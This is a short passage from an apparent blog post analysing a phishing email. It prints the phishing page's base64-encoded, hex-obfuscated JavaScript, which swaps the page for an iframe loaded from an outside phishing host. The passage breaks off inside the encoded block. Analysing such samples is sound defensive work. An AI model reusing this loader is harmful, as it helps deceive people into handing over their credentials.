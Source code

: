 ![The phishing page](/assets/images/2016-06-01-analysing-phishing-mail/02.png)

Okay so the magic seems to happen in this base64 encoded JavaScript code:

{% highlight javascript %}
dmFyIF8weGRjMGY9WyJceDc0XHg2OVx4NzRceDZDXHg2NSIsIlx4NjRceDZGXHg2M1x4NzVceDZE
XHg2NVx4NkVceDc0IiwiXHg1OVx4NkZceDc1XHgyMFx4NjhceDYxXHg3Nlx4NjVceDIwXHg2Mlx4
NjVceDY1XHg2RVx4MjBceDUzXHg2OVx4NjdceDZFXHg2NVx4NjRceDIwXHg2Rlx4NzVceDc0Iiwi
XHg2Q1x4NjlceDZFXHg2QiIsIlx4NjNceDcyXHg2NVx4NjFceDc0XHg2NVx4NDVceDZDXHg2NVx4
NkRceDY1XHg2RVx4NzQiLCJceDc0XHg3OVx4NzBceDY1IiwiXHg2OVx4NkRceDYxXHg2N1x4NjVc
eDJGXHg3OFx4MkRceDY5XHg2M1x4NkZceDZFIiwiXHg3Mlx4NjVceDZDIiwiXHg3M1x4NjhceDZG
XHg3Mlx4NzRceDYzXHg3NVx4NzRceDIwXHg2OVx4NjNceDZGXHg2RSIsIlx4NjhceDcyXHg2NVx4
NjYiLCIiLCJceDYxXHg3MFx4NzBceDY1XHg2RVx4NjRceDQzXHg2OFx4NjlceDZDXHg2NCIsIlx4
NjhceDY1XHg2MVx4NjQiLCJceDY3XHg2NVx4NzRceDQ1XHg2Q1x4NjVceDZEXHg2NVx4NkVceDc0
XHg3M1x4NDJceDc5XHg1NFx4NjFceDY3XHg0RVx4NjFceDZEXHg2NSIsIlx4NkZceDc1XHg3NFx4
NjVceDcyXHg0OFx4NTRceDREXHg0QyIsIlx4NjJceDZGXHg2NFx4NzkiLCJceDNDXHg2OVx4NjZc
eDcyXHg2MVx4NkRceDY1XHgyMFx4NzNceDcyXHg2M1x4M0RceDIyXHg2OFx4NzRceDc0XHg3MFx4
M0FceDJGXHgyRlx4NjVceDc4XHg3MVx4NzVceDY5XHg3M1x4NjlceDc0XHg2NVx4NzJceDY1XHg3
N1x4NkZceDZGXHg2NFx4NzNceDJFXHg3NFx4NkZceDcwXHgyRlx4NjFceDYyXHg2Rlx4NzVceDc0
XHg3NVx4NzNceDJGXHg2Rlx4NzVceDcyXHg3NFx4NjVceDYxXHg2RFx4NkRceDY1XHg2NFx4Njlc
eDYxXHg3MFx4NjFceDcyXHg3NFx4NkVceDY1XHg3Mlx4NzNceDJFXHg2OFx4NzRceDZEXHg2Q1x4
MjJceDIwXHg3M1x4NzRceDc5XHg2Q1x4NjVceDNEXHgyMlx4NjJceDZGXHg3Mlx4NjRceDY1XHg3
Mlx4M0FceDIwXHgzMFx4M0JceDc3XHg2OVx4NjRceDc0XHg2OFx4M0FceDIwXHgzMVx4MzBceDMw